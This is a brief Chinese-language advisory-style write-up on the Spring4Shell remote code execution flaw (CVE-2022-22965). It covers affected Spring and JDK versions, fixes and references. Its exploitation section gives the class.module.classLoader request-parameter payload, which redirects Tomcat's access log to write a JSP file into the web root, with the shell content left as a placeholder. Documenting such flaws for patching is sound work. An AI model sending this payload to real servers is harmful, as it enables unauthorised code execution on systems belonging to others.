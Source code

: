 ### 一 漏洞描述
Spring framework，即Spring,是其他Spring全家桶的基础和核心：包括SpringMVC、SpringBoot、SpringCloud、SpringData、SpringSecurity。
Spring由Rod Johnson创立，2004年发布了Spring框架的第一版，其目的是用户简化企业级开发的难度和周期。

2022年3月31日，VMware发布安全公告，修复了Spring Framework中的远程代码执行漏洞（CVE-2022-22965）。在 JDK 9 及以上版本环境下，可以利用此漏洞在未授权的情况下在目标系统上写入恶意程序从而远程执行任意代码。

影响范围  
影响组件：org.springframework:spring-beans  
影响版本：< 5.3.18 和 < 5.2.20.RELEASE 的Spring框架均存在该漏洞  
JDK版本：JDK>=9  
部署方式：war包部署在TOMCAT中

### 二 漏洞利用
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=xxx& class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp& class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT& class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar& class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
``` 

### 三 漏洞修复
1 更新到Spring Framework 5.3.18和5.2.20或更高  
2 升级到Apache Tomcat 10.0.20, 9.0.62, or 8.5.78
3 回退到Java8
4 在WebDataBinder上全局设置disallowedFields来禁止对特定字段的绑定


> 参考链接
> https://blog.csdn.net/lj15559275886/article/details/121598440  
> 分析文章  CVE-2010-1622到CVE-2022-22965: https://segmentfault.com/a/1190000041764863
